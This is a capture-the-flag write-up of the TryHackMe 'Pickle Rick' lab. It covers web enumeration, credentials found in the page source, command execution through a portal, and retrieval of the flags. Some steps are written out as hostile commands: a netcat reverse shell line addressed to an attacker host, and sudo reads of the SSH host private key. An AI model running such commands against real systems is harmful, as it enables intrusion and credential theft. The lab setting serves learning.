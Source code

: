 # Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

When reading the source code in `http://10.10.253.172/`, we found the following username: `R1ckRul3s` within the comments.

...

```bash
gobuster dir -u ... -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...
/assets
/robots.txt
/.htaccess
/.htpasswd
...
```

...

From `/robots.txt`:

`Wubbalubbadubdub`

...

```bash
$ ffuf -u http://<target>/FUZZ.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
/login.php
/portal.php
...
```

...

```bash
$ ffuf -h -u http://<target>/FUZZ -w .../Apache_common.txt
/login.php
/portal.php
... 
```

We found the path `/login.php` .

We are presented with a login page. We can utilize the information we have gathered earlier to discover the username and password of `R1ckRul3s` and `Wubbalubbadubdub` respectively.

**Enumerating the webpage**

Comment found in `/portal.php`:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This is a string that has been base64-encoded multiple times. The plaintext value turns out to be `rabbit hole` . Well, is this a clue, or perhaps a directory path value, name of a file, or simply something just to throw us off?

We are presented with a command line input that accepts commands for a Linux environment.

Upon visiting `/denied.php` ,

We are presented with a message: "Only the REAL rick can view this page." This made me wonder, by _REAL rick_, does this mean we have to somehow access this page via the root account?

**SQL Injection attempt**

I attempted a SQL injection attack on the login form, in hopes of potentially discovering the name and password combination of the root, or higher privilege account.

```sql
...
```

### First ingredient

```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair
```

### Second ingredient

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disable
1 jerry tear
```

**Attempts at abusing my `sudo` privileges to view system logs, SSH configurations, etc.**

```bash
$ sudo -l

Matching Defaults entries for www-data on ip-10-10-49-150:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-49-150:
    (ALL) NOPASSWD: ALL
    
$ sudo less /var/log/syslog
...

$ ls -la /etc/ssh
...

$ sudo less /etc/ssh/ssh_host_rsa_key
...

```

**Attempts to initiate a reverse shell**

```bash
$ perl ...
$ ... # bash
$ ... # python
$ nc <attacker> [port] -e /bin/sh # netcat
```

**Attempt to add a new SSH authorized key**&#x20;

```bash
$ ...
```

### Third ingredient

```bash
$ sudo ls -la /root
...
3rd.txt
...

$ sudo less /root/3rd.txt
fleeb juice
```
